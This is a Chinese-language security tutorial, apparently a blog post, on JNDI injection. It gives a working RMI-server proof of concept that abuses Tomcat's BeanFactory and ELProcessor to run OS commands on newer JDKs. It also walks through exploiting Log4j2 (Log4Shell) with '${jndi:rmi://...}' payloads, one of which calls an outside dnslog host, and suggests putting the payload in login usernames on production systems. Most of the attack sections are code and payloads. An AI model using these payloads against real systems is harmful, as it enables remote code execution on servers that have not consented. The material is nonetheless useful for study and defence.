




jndi加载本地类利用
上一个篇中讲了jndi结合RMI的利用,然而这个利用只适用于 JDK < 8u191的情况,在高版本的jdk中,我们可以通过加载本地类的方法进行命令执行。
之前在Reference中传入了一个工厂类名,然后让程序去找这个工厂类的位置,最终加载到了我们所构建的恶意类并调用了其构造方法,而这次我们将直接利用本地存在的工厂类去执行命令。
这里利用的是tomcat8带有的BeanFactory类,这个类中带有method.invoke可以通过反射来调用任意方法。
首先导入依赖（这里org.apache.el如果导入失败的话需要换个源,我是用阿里云的源）：
1
2
3
4
5
6
7
8
9
10
| <dependency>
<groupId>org.apache.tomcat</groupId>
<artifactId>tomcat-catalina</artifactId>
<version>8.5.0</version>
</dependency>
<dependency>
<groupId>org.apache.el</groupId>
<artifactId>com.springsource.org.apache.el</artifactId>
<version>7.0.26</version>
</dependency>
|
poc代码：
1
2
3
4
5
6
7
8
| Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
ref.add(new StringRefAddr("forceString", "x=eval"));
ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));
ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
registry.bind("Object", referenceWrapper);
|
客户端：
1
| Object object=new InitialContext().lookup("rmi://127.0.0.1:1099/Object");
|
效果：

利用链：
InitialContext#lookup
GenericURLContext#lookup
RegistryContext#lookup
RegistryContext#decodeObject
NamingManager#getObjectInstance
BeanFactory#getObjectInstance
反射执行的语句：
1
| (new ELProcessor()).eval("\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")");
|
解释：
- “”.getClass() 返回字符串对象的Class对象。
- Class.forName() 可以根据类的名称返回对应的Class对象。
- newInstance() 可以使用Class对象实例化一个对象。
- getEngineByName() 返回指定名称的脚本引擎对象,这里是JavaScript引擎对象。
- eval() 方法用于执行脚本。
- ProcessBuilder 类可以启动一个新进程并执行操作系统命令。
jndi+log4j2
Log4j2是Apache软件基金会下的一个开源项目,是Java编程语言的一种流行的、模块化的日志记录工具,用于记录应用程序的运行状态信息和调试信息。
而在2021年11月log4j2爆出了一个代码执行漏洞,影响范围非常大,2.14.1版本及之前的都存在该漏洞
而这个漏洞的利用正好与jndi注入有关
环境搭建
首先导入依赖（版本小于2.14.1即可）：
1
2
3
4
5
6
7
8
9
| <dependency>
<groupId>org.apache.logging.log4j</groupId>
<artifactId>log4j-api</artifactId>
<version>2.14.0</version>
</dependency>
<dependency>
<groupId>org.apache.logging.log4j</groupId>
<artifactId>log4j-core</artifactId>
<version>2.14.0</version>
|
编写log4j2的配置文件
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
| <?xml version="1.0" encoding="UTF-8"?>
<Configuration status="WARN">
<Properties>
<Property name="pattern">%d{yyyy-MM-dd HH:mm:ss,SSS} %5p %c{1}:%L - %m%n</Property>
<Property name="logDir">/data/logs/dust-server</Property>
</Properties>
<Loggers>
<Root level="INFO">
<AppenderRef ref="console"/>
<AppenderRef ref="rolling_file"/>
</Root>
</Loggers>
<Appenders>
<Console name="console" target="SYSTEM_OUT" follow="true">
<ThresholdFilter level="INFO" onMatch="ACCEPT" onMismatch="DENY"/>
<PatternLayout>
<Pattern>${pattern}</Pattern>
</PatternLayout>
</Console>
<RollingFile name="rolling_file"
fileName="${logDir}/dust-server.log"
filePattern="${logDir}/dust-server_%d{yyyy-MM-dd}.log">
<ThresholdFilter level="INFO" onMatch="ACCEPT" onMismatch="DENY"/>
<PatternLayout>
<Pattern>${pattern}</Pattern>
</PatternLayout>
<Policies>
<TimeBasedTriggeringPolicy interval="1"/>
</Policies>
<DefaultRolloverStrategy>
<Delete basePath="${logDir}/" maxDepth="1">
<IfFileName glob="dust-server_*.log" />
<IfLastModified age="7d" />
</Delete>
</DefaultRolloverStrategy>
</RollingFile>
</Appenders>
</Configuration>
|
测试：
1
2
3
4
5
6
7
8
| public class LOGtest {
public static void main( String[] args )
{
Logger logger = LogManager.getLogger(LongFunction.class);
String username= "${java:os}"; ;
logger.error("Hello, {}",username);
}
}
|

这里就输出了操作系统的一些信息,这实际上是log4j2自带的一些功能
但除此之外,它还支持调用lookup,那么这里就会存在我们之前所说的命令执行漏洞
漏洞探测
修改测试代码如下：
1
2
3
4
5
6
7
8
| public class LOGtest {
public static void main( String[] args )
{
Logger logger = LogManager.getLogger(LongFunction.class);
String username= "${jndi:rmi://foei54.dnslog.cn/Object}"; ;
logger.error("Hello, {}",username);
}
}
|
foei54.dnslog.cn为我们在dnslog平台得到的url
运行测试代码并查看dns记录,出现以下结果则说明漏洞存在

漏洞利用
修改测试代码如下：
1
2
3
4
5
6
7
8
| public class LOGtest {
public static void main( String[] args )
{
Logger logger = LogManager.getLogger(LongFunction.class);
String username= "${jndi:rmi://127.0.0.1:1099/Object}"; ;
logger.error("Hello, {}",username);
}
}
|
将之前测试jndi的服务端程序运行起来,然后运行测试代码
效果：

可以看到命令被成功执行了
实际上在正常的生产环境中,log4j2会写入非常多的事件,哪怕是一个简单的用户登录事件,这时候我们就可以修改用户名的内容为${jndi:rmi://foei54.dnslog.cn/Object}来测试漏洞是否存在。
参考：
JNDI注入学习
一问三不知之log4j2漏洞简析
深入学习 Log4j2 漏洞原理以及绕过手段